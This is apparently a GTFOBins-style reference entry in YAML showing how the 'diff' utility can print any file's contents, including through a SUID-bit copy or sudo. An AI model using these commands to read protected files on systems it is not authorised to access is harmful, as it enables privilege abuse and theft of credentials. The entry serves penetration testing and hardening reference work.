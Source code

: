 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        diff --line-format=%L /dev/null $LFILE
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./diff --line-format=%L /dev/null $LFILE
  sudo-enabled:
    - code: |
        LFILE=file_to_read
        sudo diff --line-format=%L /dev/null $LFILE
---
```

